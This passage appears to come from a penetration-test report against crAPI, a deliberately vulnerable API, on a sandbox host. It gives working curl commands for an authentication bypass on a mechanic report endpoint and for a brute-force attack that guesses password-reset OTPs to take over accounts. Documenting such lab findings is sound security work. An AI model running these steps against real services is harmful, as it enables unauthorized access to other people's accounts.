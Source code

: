 **Exploitation Steps:**
1. Access mechanic report endpoint without authentication:
   ```bash
   curl -X GET "https://crapi.sandbox.local:8888/workshop/api/mechanic/receive_report" \
     -H "Content-Type: application/json"
   ```

**Proof of Impact:**
Successfully accessed the endpoint without authentication, receiving field validation requirements:
```json
{"mechanic_code":["This field is required."],"problem_details":["This field is required."],"vin":["This field is required."]}
```

This proves the authentication bypass - the endpoint processes the request and returns field requirements instead of an authentication error, indicating that anyone can access this mechanic functionality without proper credentials.

---

### AUTHZ-VULN-12: OTP Validation Brute Force Bypass

**Summary:**
- **Vulnerable location:** POST /identity/api/auth/v2/check-otp
- **Overview:** Workflow bypass allowing unlimited OTP brute force attempts for password reset
- **Impact:** Ability to reset any user's password through OTP enumeration
- **Severity:** Critical

**Prerequisites:** Target user email address

**Exploitation Steps:**
1. Initiate password reset workflow:
   ```bash
   curl -X POST "https://crapi.sandbox.local:8888/identity/api/auth/forget-password" \
     -H "Content-Type: application/json" \
     -d '{"email": "testuser2@example.com"}'
   ```

2. Execute systematic OTP brute force attack:
   ```bash
   # Test multiple OTP values from 000000 to 999999
   curl -X POST "https://crapi.sandbox.local:8888/identity/api/auth/v2/check-otp" \
     -H "Content-Type: application/json" \
     -d '{
       "email": "testuser2@example.com",
       "otp": "000000",
       "password": "NewHackedPassword123!"
     }'
   ```

**Proof of Impact:**
Systematic testing confirmed complete absence of brute force protections:
- **34 consecutive OTP attempts executed** without any rate limiting
- **No account lockout mechanism** detected
- **No timing variations** to prevent automated attacks
- **Consistent error responses** for all invalid OTPs
- **Server accepts unlimited requests** at full speed
